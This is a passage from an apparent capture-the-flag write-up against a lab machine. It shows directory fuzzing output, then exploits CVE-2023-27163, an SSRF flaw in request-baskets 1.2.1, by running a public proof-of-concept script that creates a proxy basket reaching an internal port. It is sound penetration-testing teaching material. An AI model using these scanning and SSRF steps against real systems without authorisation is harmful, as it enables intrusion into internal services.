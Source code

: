 ```
400      GET        1l       10w       75c http://10.10.11.224:55555/error%1F_log
400      GET        1l       10w       75c http://10.10.11.224:55555/extension]
400      GET        1l       10w       75c http://10.10.11.224:55555/~alex
400      GET        1l       10w       75c http://10.10.11.224:55555/~blog
400      GET        1l       10w       75c http://10.10.11.224:55555/~chat
400      GET        1l       10w       75c http://10.10.11.224:55555/~css
400      GET        1l       10w       75c http://10.10.11.224:55555/~eric
400      GET        1l       10w       75c http://10.10.11.224:55555/~forum
400      GET        1l       10w       75c http://10.10.11.224:55555/~js
400      GET        1l       10w       75c http://10.10.11.224:55555/~home
400      GET        1l       10w       75c http://10.10.11.224:55555/~mark
400      GET        1l       10w       75c http://10.10.11.224:55555/~gary
400      GET        1l       10w       75c http://10.10.11.224:55555/~tmp
400      GET        1l       10w       75c http://10.10.11.224:55555/~liam
400      GET        1l       10w       75c http://10.10.11.224:55555/%C4%BC
400      GET        1l       10w       75c http://10.10.11.224:55555/%C4%A3%C4%BC
400      GET        1l       10w       75c http://10.10.11.224:55555/%C5%B1%C4%BC
400      GET        1l       10w       75c http://10.10.11.224:55555/%DD%BF%C4%BC
400      GET        1l       10w       75c http://10.10.11.224:55555/%CC%A8%C4%BC
400      GET        1l       10w       75c http://10.10.11.224:55555/%E2%80%9D
400      GET        1l       10w       75c http://10.10.11.224:55555/%E7%89%B9%E6%AE%8A
400      GET        1l       10w       75c http://10.10.11.224:55555/%E8%AE%A8%E8%AE%BA
400      GET        1l       10w       75c http://10.10.11.224:55555/[0-9]
[####################] - 1m     30000/30000   0s      found:83      errors:0
[####################] - 1m     30000/30000   458/s   http://10.10.11.224:55555/

```

It finds some errors, but nothing interesting.

## Shell as puma

### Access Mailtrail

#### Find Exploit

Searching for “request-baskets exploit” leads to [this blog post](https://medium.com/@li_allouche/request-baskets-1-2-1-server-side-request-forgery-cve-2023-27163-2bab94f201f7) about CVE-2023-27163. It’s a server-side request forgery (SSRF) vulnerability, which means I can get the server to send requests on my behalf. The post calls out version 1.2.1 as vulnerable:

![image-20240104104117044](https://0xdf.gitlab.io/img/image-20240104104117044.png)

#### Exploit

There’s a nice POC [here](https://github.com/entr0pie/CVE-2023-27163/blob/main/CVE-2023-27163.sh) to exploit this. I’ll run it to try to read port 80:

```
oxdf@hacky$ ./cve-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:80
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "nunfxp" proxy basket...
> Basket created!
> Accessing http://10.10.11.224:55555/nunfxp now makes the server request to http://127.0.0.1:80.
> Authorization: jNZBYjgQRAzttysfJcl5dcKLBO0YkzLVCkYgEQsbZzXs

```
